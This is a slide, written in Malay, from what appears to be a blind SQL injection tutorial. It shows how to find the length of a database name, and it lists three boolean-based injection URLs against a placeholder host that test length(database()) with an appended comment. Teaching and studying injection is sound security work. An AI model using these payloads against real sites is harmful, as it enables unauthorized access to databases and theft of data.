

# Checking for Panjang Database(Database String)
Sekarang, kita akan check Panjang database. Masukkan payload dan jika return true, maksudnya itulah Panjang database yang ada. Kita perlu tahu Panjang Database ini supaya kita boleh tahu ianya terdiri daripada berapa huruf.

Payload :
http://domain.com/php?id=1' AND (length(database())) = 1 --+
http://domain.com/php?id=1' AND (length(database())) = 2 --+
http://domain.com/php?id=1' AND (length(database())) = 3 --+

DFM_Rekrut